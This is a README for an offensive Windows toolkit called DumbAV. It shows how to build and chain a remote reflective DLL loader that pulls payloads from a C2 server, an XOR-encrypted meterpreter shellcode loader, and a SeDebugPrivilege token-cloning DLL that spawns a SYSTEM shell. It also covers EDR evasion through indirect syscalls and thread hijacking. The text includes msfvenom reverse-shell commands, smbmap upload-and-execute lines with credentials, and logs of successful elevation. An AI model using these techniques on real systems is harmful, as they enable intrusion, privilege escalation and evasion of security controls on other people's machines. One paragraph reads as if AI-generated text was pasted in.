

# DumbAV 
DumbAV is a handy collection of simple AV bypass methods. This is a mish-mash of some of the methods I've leveraged to bypass AV and end-point controls in Windows environments. This assumes that you have an established command execution foothold on a victim host and need to elevate privileges. These are not novel techniques, just repackated ideas that have been around for a while. 

* remote_dll_loader.exe - This program loads a DLL from a provided URL or local file into memory and executes it. No touching disk, which is nice.
* xor_loader_dll.c - This DLL loads XOR encrypted shellcode from hamdinger_data.h and executes it. Pairs well with remote_dll_loader.exe.
* xor_encrypt.py - This Python script converts raw shellcode into an XOR encrypted char array stored in the header, hamdinger_data.h.
* privesc_dll.c - This DLL uses the SeDebugPrivilege and token cloning to (hopefully) launch an elevated process. Pairs well with remote_dll_loader.exe

## Do these work?
Absolutely, maybe! Some of these methods are long in the tooth, but provide a good baseline for control validation. remote_dll_loader.exe is almost univesrally ignored by AV. It's the remotely hosted DLLs it helps execute that tend to trigger an alert. 

## How do I use these? 


I compile all of the Windows DLLs in Linux with x86_64-w64-mingw32-gcc. Most of the *.c files have comments in them that you'll want to remove before compiling. Don't give the game up, AV reads them too. Here's the basic run down of how these puzzle pieces fit together. 

### Remote DLL Loader

Lets start with most versitle remote_dll_loader.c. This program accepts as an argument a URL (your C2) or local file that that points to a DLL you'd like to run on your victim machine. 

Compile to EXE:

```
$ x86_64-w64-mingw32-gcc remote_dll_loader.c -o remote_dll_loader.exe -lwininet
```

You can also just grab the pre-compiled binary. 

#### Local Hosted

From there you can uplaod the binary to the victim, for example using SMBMap. While you're at it upload the privesc.dll as well.

```
C:\Users\shawnevans>whoami
shawnevans-pc\shawnevans

C:\Users\shawnevans>remote_dll_loader.exe privesc.dll
[+] Target identified as local file. Reading...
[+] Data acquired (434177 bytes). Starting reflective load...
Allocated target memory base: 0x0000000001c50000
Successfully mapped headers and sections.
Applying base relocations. Delta: 0xFFFFFFFD46D60000
Base relocations applied successfully.
Successfully resolved Import Address Table (IAT).
Analyzing cat paw entry point at 0x1C51350...
--- PrivEsc Operation Started ---
[+] SeDebugPrivilege enabled successfully.
[+] Found services.exe with PID: 492
[***] SUCCESS: Launched SYSTEM cmd.exe! PID: 2196
This finished. That returned: 1
```

A new cmd.exe window pops up and check that out, we've elevated.

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

#### Remote Hosted

The scenario below demonstrates how privesc.dll can be hosted on a C2 server. This way we never touch disk with the malicious bits. First we fire up a simple python server to host the DLL.

```
$ python -m http.server 8337
Serving HTTP on 0.0.0.0 port 8337 (http://0.0.0.0:8337/) ...
192.168.1.32 - - [06/Feb/2026 18:40:08] "GET /privesc.dll HTTP/1.1" 200 -

```
Now, on the victim host we execute remote_dll_loader.exe.
```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\shawnevans>remote_dll_loader.exe http://192.168.1.10:8337/privesc.dll
[+] Target identified as URL. Downloading...
[+] Data acquired (434177 bytes). Starting reflective load...
Allocated target memory base: 0x0000000002320000
Successfully mapped headers and sections.
Applying base relocations. Delta: 0xFFFFFFFD47430000
Base relocations applied successfully.
Successfully resolved Import Address Table (IAT).
Analyzing cat paw entry point at 0x2321350...
--- PrivEsc Operation Started ---
[+] SeDebugPrivilege enabled successfully.
[+] Found services.exe with PID: 492
[***] SUCCESS: Launched SYSTEM cmd.exe! PID: 4904
This finished. That returned: 1
```
This results in a new cmd.exe process with SYSTEM privileges, yay!
```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>tasklist | findstr cmd.exe
cmd.exe                       3400 Console                    1      3,172 K
cmd.exe                       4904 Console                    1      3,212 K
```

### Signature based evasion
#### XOR Loader VirtualAlloc

The XOR loader method is nice, mainly because it's simple. The general scenario is that we want to execute a Metasploit payload. AV hates Metasploit payloads, so we need to introduce an intermediary. We do this by way of XOR encoding raw shellcode from msfvenom. It’s a great reference for how relatively simple C-based obfuscation (like the XOR-based payload delivery you demonstrated here) can still effectively bypass signature-based detection. Since that project focuses on the "stupid simple" approach of XORing a payload and executing it to show how easily AV can be defeated. 

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Listening Port> -f raw -o yanky.doodle
```

Now that we have our raw shellcode stored in "yanky.doodle" we can use the xor_encrypt.py script generate a C header file that contains the XOR encrypted shellcode stored as a char array. 

Note: The one thing to know about the way the XOR shellcode loader works is that the key used to decrypt the payload is generated partially at runtime via the current system year. For example if you define a key "ImALoser" using xor_encrypt.py, the actual decryption key is "ImALoser2026". Elegant, I know. This way the DLL doesn't contain the complete key as hardcoded string, only the fragment "ImALoser". I'm sure there is a bettter way to do this, but this is simple and works against some
EDR. 

```
$ ./xor_encrypt.py -i yanky.doodle -k ImALoser

--- Encryption Summary ---
Input File: yanky.doodle
Output File: hamdinger_data.h
Hardcoded Key Part: 'ImALoser'
Dynamic Year Part: '2026'
Full Encryption Key: 'ImALoser2026' (Length: 12)
Payload Length: 510 bytes
--------------------------
Successfully generated hamdinger_data.h.
```

Now, we go to the xor_loader.c source, which needs to be edited (or not if you went with the default key of LudicrousGibs). Just change the HARDCODED_KEY_PART value to whatever you input into xor_encrypt.py.

```
  28 #include "hamdinger_data.h"
  29 
  30 #define HARDCODED_KEY_PART "ImALoser"
  31 #define MAX_KEY_LEN 100
  32 
```

Now lets compile it. You can do this as an EXE or a DLL. I'm going to use it with the remote_dll_loader.exe so I'll compile as a DLL. If you compile as an EXE, it's basically a few steps removed from a vanilla MSF payload - higher chance it gets popped. 

```
$ x86_64-w64-mingw32-gcc xor_loader.c -shared -o hamdinger.dll
```

From here you can just use the remote_dll_loader.exe program to relfectively load and execute the DLL. With any luck your MSF payload will happily run in memory and you get a nice Metasploit session open. 
```
$ smbmap -H 192.168.86.30 -u administrator -p asdf1234 --upload '/home/shawnevans/tools/DumbAV/remote_dll_loader.exe' 'C$\Tools\remote_dll_loader.exe'
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[+] Starting upload: /home/shawnevans/tools/DumbAV/remote_dll_loader.exe (526654 bytes)
[+] Upload complete..
[*] Closed 1 connections
$ smbmap -H 192.168.86.30 -u administrator -p asdf1234 -x 'c:\tools\remote_dll_loader.exe http://192.168.86.135:8337/slamhog.dll' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[|] Executing wmi command, hang tight...
[*] Host:  192.168.86.30

[+] Loaded 434062 bytes. Starting reflective load...
[+] Calling Entry Point at 0x000001feadf01350
[+] Payload unleashed. Sleeping for persistence...
[+] RX View mapped at 000001feadf80000. Preparing Spoofed Thread...
[+] Thread Context Hijacked. Resuming...

[*] Closed 1 connections

```

### Behavioral Evasion
The original xor_loader.c served as a "Dumb" baseline to prove that simple static obfuscation (XOR) could bypass basic signature-based detection. The new hamdinger_pro.c is a "Smart" successor designed to bypass modern Behavioral Engines, EDR Hooks, and Memory Scanners.

1. Memory Residency & Allocation
Original: Used VirtualAlloc with PAGE_EXECUTE_READWRITE (RWX). This is a "noisy" allocation that triggers immediate alerts in modern behavioral engines (Heuristics).

Pro: Uses Native Section Mapping (NtCreateSection / NtMapViewOfSection). By creating a section and mapping a view, the loader mimics legitimate Windows shared memory usage.

2. The "No RWX" Rule (Dual Mapping)
Original: Relied on a single block of RWX memory where code was decrypted and executed in the same place.

Pro: Implements Dual View Mapping. One view is mapped as Read/Write (RW) for the decryption process, while a second view of the same physical memory is mapped as Read/Execute (RX). This ensures that no single memory region is ever both Writable and Executable at the same time, bypassing the most common EDR detection trigger.

3. EDR Hook Bypass (Halo’s Gate & Indirect Syscalls)
Original: Used standard Win32 API calls like CreateThread and VirtualAlloc. These are heavily hooked by EDRs (CrowdStrike, Defender, etc.) in user-mode (ntdll.dll).

Pro: Uses Halo’s Gate to dynamically discover Syscall Numbers (SSNs) by scanning memory for unhooked neighboring functions. It then executes these calls via Indirect Syscalls, jumping into the middle of a legitimate syscall instruction inside ntdll.dll. This hides the origin of the call and makes the stack look like a trusted Windows process.

4. Heuristic Thread Masking (Context Hijacking)
Original: Used CreateThread pointing directly to the shellcode, which is easily flagged as "Unbacked Code Execution."

Pro: Uses Thread Start Address Spoofing. It creates a thread in a suspended state pointing to a legitimate, signed function (like GetTickCount). It then uses a hijacked thread context to redirect the execution pointer (RIP/EIP) to the RX payload view before resuming, masking the true entry point.

5. Reflective Loading & Cleanup
Original: Intended to be run as a standalone EXE or loaded via standard disk-based DLL loading.

Pro: Optimized for Reflective DLL Loading. It includes a DllMain that gracefully handles background thread spawning to bypass the "Loader Lock." When combined with the updated remote_dll_loader.c, it supports full in-memory execution from a URL, with automated section protection flipping to ensure the final memory state looks identical to a legitimate Windows module.

How to Build
```
$ nasm -f win64 syscalls.asm -o syscalls.o

$ x86_64-w64-mingw32-gcc hamdinger_pro.c syscalls.o -shared -o hamdinger.dll (Move this to your web server)

$ x86_64-w64-mingw32-gcc remote_dll_loader.c -o loader.exe -lwininet
```
#### A bit more on indirect syscalls

Normally, a function call follows this path:

Your App → kernel32.dll → ntdll.dll → Kernel (Ring 0).

EDRs like CrowdStrike or Windows Defender inject their own code (hooks) at the very beginning of the functions in ntdll.dll. If you call NtSetContextThread normally, the EDR's hook runs first, inspects your arguments, and blocks the action.

Direct Syscalls: You include the syscall opcode ($0F$ $05$) directly in your syscalls.asm. While this bypasses hooks, it creates a "marker" in your binary. If an EDR sees a syscall instruction originating from your private memory (not a signed Microsoft DLL), it’s a massive red flag.

Indirect Syscalls: Instead of executing the syscall instruction yourself, you jump to a syscall instruction that already exists inside the legitimate ntdll.dll.

The syscall.asm assembly stub is the "manual transmission" of the loader. It prepares the CPU registers according to the Windows x64 Calling Convention so the Kernel can process the request.

### Non-malicious PoC 

Keep in mind that remote_dll_loader.exe just loads a DLL and executes it. The DLL can do absolutely anything. You can use the msgbox.dll as an easy proof-of-concept.



